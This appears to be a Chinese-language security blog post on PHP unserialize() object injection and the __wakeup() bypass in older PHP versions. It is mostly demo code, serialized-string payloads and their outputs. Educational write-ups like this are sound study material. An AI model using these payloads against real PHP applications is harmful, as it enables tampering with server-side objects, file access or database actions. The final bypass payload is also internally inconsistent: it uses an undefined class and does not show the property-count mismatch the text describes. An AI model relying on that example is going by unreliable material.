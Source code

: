 ```yaml
---
layout: post
title:  "php unserialize()/wakeup()漏洞"
date:   2016-10-29 09:31:40 +0800
categories: Web
tags:
    - 反序列化
    - PHP
---
```

unserialize和serialize这里不做赘述。

unserialize的漏洞在magic function上，如果一个类定义了\_\_wakup()和\_\_destruct()，则该类的实例被反序列化时，会自动调用\_\_wakeup(), 生命周期结束时，则调用\_\_desturct()。

<!--more-->

下面提供一个简单的demo.

```php
class Demo
{

    public $data;

    public function __construct($data)
    {
        $this->data = $data;
        echo "construct<br />";
    }

    public function __wakeup()
    {
        echo "wake up<br />";
    }

    public function __destruct()
    {
        echo "Data's value is $this->data. <br />";
        echo "destruct<br />";
    }
}

var_dump(serialize(new Demo("raw value")));

```

输出

````php
construct
Data's value is raw value.
destruct
string(44) "O:4:"Demo":1:{s:4:"data";s:9:"raw value";}" 
```

把序列化的字符串修改一下后，执行

```php
unserialize('O:4:"Demo":1:{s:4:"data";s:15:"malicious value";}');
```

输出

```
wake up
Data's value is malicious value.
destruct
```

这里看到，值被修改了.

上面是一个unserialize()的简单应用，不难看出，如果\_\_wakeup()或者 \_\_desturct()有敏感操作，比如读写文件、操作数据库，就可以通过函数实现文件读写或者数据读取的行为。

那么，在\_\_wakeup()中加入判断是否可以阻止这个漏洞呢？
在\_\_wakeup()中我们加入一行代码

```php
    public function __wakeup()
    {
        if($this->data != 'raw value') $this->data = 'raw value';
        echo "wake up<br />";
    }
```

但其实还是可以绕过的，在 PHP5 < 5.6.25， PHP7 < 7.0.10 的版本都存在wakeup的漏洞。当反序列化中object的个数和之前的个数不等时，wakeup就会被绕过，于是使用下面的payload

```php
unserialize('O:7:"HITCON":1:{s:4:"data";s:15:"malicious value";}');
```

输出

```
Data's value is malicious value.
destruct
```

这里wakeup被绕过，值依旧被修改了。
